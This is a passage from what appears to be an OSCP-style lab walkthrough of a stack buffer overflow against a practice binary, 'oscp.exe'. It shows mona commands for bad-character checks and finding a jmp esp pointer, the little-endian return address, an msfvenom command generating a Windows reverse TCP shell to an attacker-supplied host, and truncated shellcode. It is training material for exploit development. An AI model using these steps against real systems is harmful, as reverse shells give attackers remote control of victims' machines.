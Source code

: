 Then run `!mona compare` command with the appropriate memory address. It returns:

```
Message=[+] Comparing with memory at location : 0x019bfa30 (Stack)
Message=!!! Hooray, normal shellcode unmodified !!!
```

In this case we correctly assumed that all __following__ characters that were in sequence to others were corrupted by bad chars, but usually the best practice is to reiterate this process byte-by-byte, excluding one byte after another and running it that way.

### Finding a Jump Point

Finding a jump point is about finding a `jmp esp` instruction in the `oscp.exe` binary. This instruction jumps directly to the address which is stored in the ESP register. Assuming our shellcode is stored at that address (`payload` variable) `jmp esp` will directly execute it. What we need to do: 

* Find the memory address of `jmp esp` instruction.
* Overwrite EIP with that memory address.
* Overwrite ESP with the memory address of our shellcode. 

To find the memory address of `jmp esp` instruction we need to run the following `mona` command:

```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

We need to find address free of bad chars, otherwise the memory address `mona` finds might be corrupted during the overflow.

This command has returned 9 pointers with addresses. I'll use the first one in my `retn` variable:

```
625011AF
```

Since the system is little endian, we need to reverse the byte sequence:

```
retn = "\xAF\x11\x50\x62"
```

### Generate Payload

Now we need to generate a legitimate payload to work with this exploit. In this case we choose `msfvenom` to generate `windows/shell_reverse_tcp`:

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

`EXITFUNC=thread`: Ensures that when the shell exits, it doesn’t crash the process.
`-b "\x00\x07\x2e\xa0"`: Exclude bad characters (including `\x00` which terminates strings early).
`-f c`: Format the payload as a C-style byte array (needed for the exploit script).

We need to add generated payload to the `payload` variable in our `exploit.py`, like so:

```
payload = ("\xda\xd2\xd9\x74\x24\xf4\x5e\xbd\xdd\xb8\x32\x12\x33\xc9"
"\xb1\x52\x83\xee\xfc\x31\x6e\x13\x03\xb3\xab\xd0\xe7\xb7"
...
"\xca\xd5\xcc\x15\x53\xbc\x6c\x78\x64\x6b\xb2\x85\xe7\x99"
"\x4b\x72\xf7\xe8\x4e\x3e\xbf\x01\x23\x2f\x2a\x25\x90\x50"
"\x7f")
```
